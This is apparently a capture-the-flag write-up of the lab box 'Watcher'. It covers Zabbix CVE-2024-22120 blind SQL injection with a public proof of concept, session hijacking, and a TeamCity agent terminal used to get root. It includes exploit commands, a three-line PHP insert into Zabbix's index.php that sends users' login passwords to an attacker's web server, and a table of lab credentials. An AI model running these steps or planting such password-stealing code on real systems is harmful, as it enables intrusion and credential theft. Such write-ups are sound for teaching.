

---
tags:
  - Linux
  - Medium
  - SQLi
  - Bot
  - PHP
  - TeamCity
  - Zabbix
  - WebApp
  - chisel
---


## User
### Port Scan
As always, we start off with an nmap scan. The results show five ports open: SSH, HTTP, Zabbix server ports, and a random Java RMI port.
```
# Nmap 7.95 scan initiated Fri Oct  3 00:52:13 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -p 22,80,10050,10051,36175 -oA nmap/watcher_full 10.129.207.78  
Nmap scan report for watcher.vl (10.129.207.78)  
Host is up (0.049s latency).  
  
PORT      STATE SERVICE    VERSION  
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   256 f0:e4:e7:ae:27:22:14:09:0c:fe:1a:aa:85:a8:c3:a5 (ECDSA)  
|_  256 fd:a3:b9:36:17:39:25:1d:40:6d:5a:07:97:b3:42:13 (ED25519)  
80/tcp    open  http       Apache httpd 2.4.52 ((Ubuntu))  
|_http-title: Watcher  
10050/tcp open  tcpwrapped  
10051/tcp open  tcpwrapped  
36175/tcp open  java-rmi   Java RMI  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
# Nmap done at Fri Oct  3 00:52:35 2025 -- 1 IP address (1 host up) scanned in 22.32 seconds
```
### Finding Zabbix
In attempting to access the web page, it tries to redirect us to `watcher.vl`, so we add that to the `/etc/hosts` file. Looking at the main page, there doesn't appear to be anything special.


As typical when there's a virtual host for a web page, I ran a vhost fuzzer to see if there were any subdomains:

`ffuf -r -w ~/git/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://watcher.vl -fs 4991 -H "Host: FUZZ.watcher.vl"| tee ffufDNS`

This command returned one hit of `zabbix` which confirms that the 10050/10051 ports are indeed Zabbix related ports. When visiting `zabbix.watcher.vl`, we have a login page that offers a guest account.


### CVE-2024-22120 to Shell
After logging in to the box, the first thing I noticed was the Zabbix version of `7.0.0alpha1` running in one of the widget boxes.


After doing some research, this version of Zabbix appeared to be vulnerable to `CVE-2024-22120`, a blind SQLi injection on the Zabbix server port of `10051`. I did some searches and found a GitHub PoC at `https://github.com/W01fh4cker/CVE-2024-22120-RCE`. 

I at first tried to run the the `CVE-2024-22120-RCE.py` script which first performs the SQLi attack to get the admin session id, and then subsequently creates a script that can run commands. However, the script would just loop without succeeding any injections. I then found that the `zabbix_server_time_based_blind_sqli.py` script that the GitHub repo [references](https://support.zabbix.com/browse/ZBX-24505) does the trick. After changing the `scriptid` to 2 on line 22 and commenting out the `config_session_key` lines on line 164/165, I was able to get the admin id with the following command (and a lot of waiting):

`python3 zabbix_server_time_based_blind_sqli.py --ip 10.129.104.19 --port 10051 --sid 547db75d55bc9878d2761d999d7f36a6 --hostid 10084`

Note that the `sid` value comes from base64 decoding the guest account's cookie, and the hostid comes from reading the request body when clicking on the `Zabbix server` host:


Once the admin session id was finally retrieved, I went back and edited `CVE-2024-22120-RCE.py` by hard coding the session id to the admin session id on line 179 in the RceExploit function call. I also commented out the admin_sessionid line on line 169 as we already had the session id. Last, for the sake of stability and easier use, I hard coded the url on line 115 to use `zabbix.watcher.vl` instead of an input ip. I then ran the following command to get code execution on the box, leading to a more functional reverse shell. At the box root is `user.txt`.


## Root
### Becoming Admin on Zabbix
The next step is tricky to find, but it necessitates that we log in to the web app as the admin to see what we have to do. To do that, we need the admin session id (which we already have), along with the session key used to sign sessions. This can be found in the Zabbix database, whose credentials can be found at `/usr/local/etc/zabbix_server.conf`:


Using these credentials, we can get the session key by logging in with `mysql -u zabbix -p`, entering the password, selecting the `zabbix` database with `use zabbix;`, and then querying for it with `select session_key from config;`.


We can then go back to the previous exploit's repo that we cloned and edit the `CVE-2024-22120-LoginAsAdmin.py` script to get the cookie. I had to comment out lines 126/127 and hard code the `admin_sessionid` and `session_key` variables to their respective values. I also commented out the proxy on line 92 along with deleting the proxy reference on line 98. Finally, like the previous script, I hard coded the domain `zabbix.watcher.vl` on line 93 as I was getting issues otherwise. After running the following command, I was able to get a usable cookie and access the Zabbix page as the admin:

`python3 CVE-2024-22120-LoginAsAdmin.py`


### Intercepting Frank's Password
The reason we had to log in as admin was to get a clue as to what was happening on the box. If we view the "Audit log" tab under "Reports" on the left, we can see that Frank logs in and out of the web page about every minute or so.


Knowing this, we can update the `/usr/share/zabbix/index.php` code to send us the password that users enter. After line 58 defining `$requests = ...`, we can add the following three lines to save the password from the request to a variable and then send it to our own Python web server:

```
...
$password = getRequest('password', '');
$url = "http://<ip>:8000/?c=" . $password;                              
$response = file_get_contents($url);
...
```

After waiting a little bit, we get a hit:


### TeamCity to Root
Back on the box and running `ss -tunl`, we can see what ports are exposed internally. Of particular note is port `8111` which is commonly associated with JetBrain's TeamCity CI/CD software (note: TeamCity is also alluded to under the processes list with `ps aux`).


By port forwarding with [chisel](https://github.com/jpillora/chisel), we can confirm that this is the case:


We can use Frank's credentials (with `frank` as the actually used username) to log in to the platform. At last, we can finally get a root shell by clicking on `Agents`, `Default Agent`, and then `Open Terminal`.


A terminal will appear at the bottom of the browser and has root access to the box.


## Credentials List

| Username | Password             | Description                                   |
| -------- | -------------------- | --------------------------------------------- |
| zabbix   | uIy@YyshSuyW%0_puSqA | Zabbix mysql password                         |
| frank    | R%)3S7^Hf4TBobb(gVVs | Frank's password for both Zabbix and TeamCity |


